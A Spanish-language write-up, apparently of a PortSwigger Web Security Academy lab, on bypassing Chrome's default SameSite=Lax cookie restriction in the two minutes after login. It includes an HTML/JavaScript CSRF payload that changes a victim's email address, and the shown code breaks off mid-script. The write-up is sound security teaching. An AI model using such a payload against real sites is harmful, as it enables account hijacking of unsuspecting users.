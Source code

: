 Como se puede observar, **no incluye el atributo SameSite**, así que **Chrome aplica automáticamente la restricción Lax por defecto**.

Normalmente, **las cookies con Lax no se envían en solicitudes POST de sitios cruzados**. Sin embargo, para mantener la compatibilidad con **Single Sign-On (SSO)**, **Chrome permite estas solicitudes POST durante los primeros 120 segundos tras iniciar sesión**.

Esto significa que hay **un margen de dos minutos** en el que el usuario **puede quedar expuesto a ataques cross-site**.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como puedes ver, **el formulario no tiene un parámetro de token CSRF**, que normalmente ayudaría a prevenir ataques CSRF.

Además, cuando enviamos el formulario, **realiza una solicitud POST a /my-account/change-email**, incluyendo el parámetro **email**.

Con esta información, **podemos crear un payload CSRF** para actualizar la dirección de correo electrónico de la víctima.

Pero antes hay algo importante que debemos tener en cuenta:

**Podemos forzar la actualización de la cookie abriendo una nueva pestaña**, de forma que el navegador **no abandone la página antes de que puedas lanzar el ataque final**.

El pequeño inconveniente de este método es que **los navegadores bloquean las ventanas emergentes a menos que se abran mediante una interacción manual del usuario**.

```
<form action="https://0aa700d10377ccd180fe1774004d00b6.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="wiener4@normal-user.net"/>
  <input type="submit" value="submit"/>
</form>
<p>Click anywhere on the page</p>
<script>
  window.onclick = () => {
    window.open("https://0aa700d10377ccd180fe1774004d00b6.web-security-academy.net/social-login", "_blank");
    setTimeout(change_email, 3000);
  }

```